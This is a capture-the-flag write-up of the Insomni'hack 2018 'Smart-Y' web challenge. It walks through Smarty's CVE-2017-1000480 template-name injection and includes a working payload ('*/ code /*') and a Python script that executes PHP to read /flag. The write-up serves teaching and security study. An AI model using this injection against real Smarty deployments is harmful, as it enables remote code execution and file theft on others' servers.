


# Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

https://github.com/YoloSw4g/writeups/tree/master/2018/Insomni'hack-Teaser-2018/web-Smart-y

https://blog.christophetd.fr/write-insomnihack-2018-ctf-teaser/#Smart-Y

# Title

[//]: <> (题目)

Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.

http://smart-y.teaser.insomnihack.ch

# Content

[//]: <> (WriteUp内容)


If we click on the arrow on the right few times, we are redirected to the following page, where we can use the <<<DEBUG>>> link to see its PHP source.



```php
<?php 
if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 
$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

It looks like the code is using the [Smarty](https://www.smarty.net/) template engine. If we browse to /smarty, we see a directory listing of the Smarty files. By opening the change_log.txt file, we’re able to see that the Smarty version being used is the 3.1.31.

After a bit of googling, we find that Smarty before 3.1.32 is vulnerable to [CVE-2017-1000480](https://nvd.nist.gov/vuln/detail/CVE-2017-1000480).

>Smarty 3 before 3.1.32 is vulnerable to a PHP code injection when calling fetch() or display() functions on custom resources that does not sanitize template name.

Interestingly, no exploit has yet been released for this vulnerability. By searching a little bit more, we can find [the commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61) which fixed the vulnerability.



As one can guess, the vulnerability is caused by the fact that $source->filepath is not validated (second diff), and is being printed in the template generated by Smarty (first diff). We see that it is printed inside a PHP comment:
```php
$output .= "/* Smarty version [...] from \"" . $template->source->filepath . "\" */...";
```

If we set the filepath to */ echo 'pwned'; /*, the expression above evaluates to:

```php
$output .= "/* Smarty version [...] from \"*/ echo 'pwned'; /*\" */...";
```

Once generated, the template will therefore contain the code we injected in it, resulting in arbitrary code execution.

As one can see from the [Smarty source](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61#diff-c18c361cf06b21f46e6d5ae3d3330a2fL50), the filepath variable is constructed as the concatenation of the type of the resource, and its name. In the code of the challenge’s ```console.php```, we have:

```php
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

Here, news is the type of the resource, and the id URL variable (which we control) will be the name. Thus, we can easily control the vulnerable filepath variable.

```python
import requests

code = "echo file_get_contents('/flag') . '\n';"
response = requests.get('http://smart-y.teaser.insomnihack.ch/console.php', {
	'id': "*/ %s /*" % code
})

print(response.text)
```

Which gives us the flag.

```
INS{why_being_so_smart-y}

The news system is in maintenance. Please wait a year. <<<DEBUG>>>
```